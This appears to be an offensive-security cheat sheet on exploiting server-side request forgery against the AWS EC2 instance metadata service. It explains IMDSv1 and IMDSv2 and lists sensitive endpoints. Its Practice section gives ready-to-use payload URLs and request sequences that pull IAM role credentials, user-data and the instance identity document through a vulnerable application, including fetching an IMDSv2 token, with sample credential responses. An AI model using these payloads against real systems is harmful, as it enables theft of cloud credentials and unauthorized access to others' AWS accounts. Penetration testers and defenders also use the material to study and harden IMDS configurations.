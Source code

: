 ```yaml
---
title: Exploit EC2 Instance Metadata via SSRF
description: Learn to exploit AWS EC2 instance metadata through SSRF, extract credentials,
  and understand IMDS security.
keywords:
- EC2 Instance Metadata
- SSRF Exploitation
- AWS Security
- IMDSv1 vs IMDSv2
- IAM Role Credentials
- AWS Privilege Escalation
- Cloud Metadata
- Metadata Service
- AWS Exploit Techniques
---
```


# EC2 Instance Metadata

## Context

EC2 Instance Metadata is a critical resource for offensive operators who aim to exploit SSRF (Server-Side Request Forgery) vulnerabilities within AWS environments. By understanding how to utilize EC2 instance metadata, attackers can gain valuable insights and credentials, enabling potential privilege escalation within Amazon Web Services. This guide assumes familiarity with HTTP protocol fundamentals, cloud service architecture, metadata service concepts, and SSRF exploitation techniques.

## Theory

### AWS EC2 Instance Metadata Service (IMDS) Overview

The EC2 Instance Metadata Service (IMDS) provides instance-specific data to virtual machines (VMs) running on AWS. Located at the IP address 169.254.169.254, the service allows applications running on EC2 instances to query and retrieve metadata using HTTP GET requests. This metadata includes sensitive information such as IAM role credentials, user-data, and instance identity documents.

### IMDSv1 vs IMDSv2 Security Mechanisms

IMDSv1 allows unauthenticated HTTP requests, making it vulnerable to basic SSRF attacks. In response to these vulnerabilities, AWS introduced IMDSv2, which requires requests to include a valid session token obtained via a PUT request. While IMDSv2 mitigates some risks by requiring token authentication, the tokens are typically short-lived and must be included in subsequent requests.

### Sensitive Metadata Endpoints

Several metadata endpoints are especially valuable for attackers:

- `/latest/meta-data/iam/security-credentials/`: This endpoint exposes temporary AWS credentials associated with the instance's IAM role.
- `/latest/user-data/`: This may contain bootstrap scripts, secrets, or configuration data.
- `/latest/dynamic/instance-identity/document`: Provides instance identity and region information, which could be useful for further exploitation.

### Attacker Goals and Threat Surface

The primary goal of attackers is to exploit SSRF vulnerabilities to access EC2 instance metadata, extract AWS credentials, and use those credentials for unauthorized API access within the AWS environment. Successful exploitation may lead to privilege escalation, especially if the instance's IAM role possesses broad permissions.

### IPv6 and Alternate Metadata Endpoints

If enabled, IMDS can also be accessed via an IPv6 endpoint at fd00:ec2::254. This can provide an alternate path in environments supporting IPv6.

## Practice

### Exploiting SSRF to Access EC2 Instance Metadata (IMDSv1)

In this scenario, the attacker utilizes a vulnerable application capable of SSRF to interact with the IMDSv1 service.

- **Payload:** `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
  - Submit the payload via the SSRF-vulnerable parameter or header to target the IAM credentials endpoint.
  
- **Response:** 
  ```
  admin-role
  ```
  - The response returns the name of the IAM role assigned to the instance.

- **Payload:** `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role`
  - This request fetches the temporary AWS credentials for the specified role.

- **Response:** 
  ```
  {
    "AccessKeyId": "ASIA...",
    "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYzEXAMPLEKEY",
    "Token": "IQoJb3JpZ2luX2VjE...",
    "Expiration": "2024-06-30T12:34:56Z"
  }
  ```
  - Extract AWS credentials for further exploitation.

### Bypassing IMDSv2 Token Requirement via SSRF

This scenario involves bypassing IMDSv2 token requirements by leveraging SSRF vectors that support custom HTTP methods and headers.

- **Payload:** 
  ```
  PUT http://169.254.169.254/latest/api/token
  X-aws-ec2-metadata-token-ttl-seconds: 21600
  ```
  - Request a session token from IMDSv2 by relaying the PUT request via SSRF-capable vectors.

- **Response:** 
  ```
  AQAEb...<token>
  ```
  - IMDSv2 returns a session token.

- **Payload:** 
  ```
  GET http://169.254.169.254/latest/meta-data/iam/security-credentials/
  X-aws-ec2-metadata-token: AQAEb...<token>
  ```
  - Use the token to authenticate and access the metadata.

- **Response:** 
  ```
  admin-role
  ```
  - Retrieve the IAM role name, similar to IMDSv1 access.

### Accessing User-Data and Instance Identity Document

Using SSRF, attackers can also access other sensitive metadata endpoints:

- **User-Data Endpoint:** `http://169.254.169.254/latest/user-data/`
  - Access scripts or configurations potentially containing secrets.
  
- **Instance Identity Document:** `http://169.254.169.254/latest/dynamic/instance-identity/document`
  - Retrieve the document for instance identity and region data.

## Tools

- **curl**
- **awscli**
- **Burp Suite**